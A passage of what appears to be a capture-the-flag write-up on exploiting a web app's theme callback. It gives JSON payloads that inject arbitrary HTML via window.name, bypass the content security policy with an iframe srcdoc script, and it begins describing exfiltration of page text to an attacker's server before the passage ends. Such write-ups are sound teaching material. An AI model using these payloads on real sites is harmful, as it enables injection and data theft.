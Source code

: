 If everything went properly, you should get an alert with `[object Object]`.

## Abusing the callback

We now have the ability to set one value to another.  We can control things like `window.name`, `location.hash`, and `location.search`, and if we append
`toString` we can successfully assign an almost arbitrary string to what we want, since `toString` will just ignore the theme object.  This should
allow us to set arbitrary HTML with the following payload:

```json
{
   "__proto__": {},
   "theme": {
      "cb": "document.body.innerHTML=window.name.toString"
   },
   "htmlGoesHere": "<h1>Hi!</h1>"
}
```

Setting `window.name` to the above should result in removing most of the page content and replacing it with the payload, so we now have arbitrary HTML injection.
Unfortunately, due to the content security policy, we can't do the traditional `<img src=x onerror=alert()>` or use a `<script>` tag, because those aren't
executed when inserted via `innerHTML`.

## Multiple callbacks

After a *long* chain of trial and error, we came to a solution that allowed us to chain multiple callbacks.  An `<iframe>` with a `srcdoc` attribute
allowed us to bypass the `innerHTML` `<script>` tag restriction, because you can access the parent DOM via `window.top`:

```json
{
   "__proto__":{},
   "theme":{
      "cb":"document.body.innerHTML=window.name.toString"
   },
   "htmlGoesHere": "<iframe srcdoc='<script src=/theme?cb=window.top.document.body.innerHTML=window.top.location.search.toString></script>'>"
}
```

The above payload should result in the contents of the page being changed to just `?__debug__` if run on the `/settings?__debug__` route.

## Exfiltration

We considered trying to setup our own script tag since we could retrieve and set the nonce, but decided to go with an idea that allowed us to concatenate the
text on the page, with the url of a server we owned, and then make a request to it.

### Concatenation
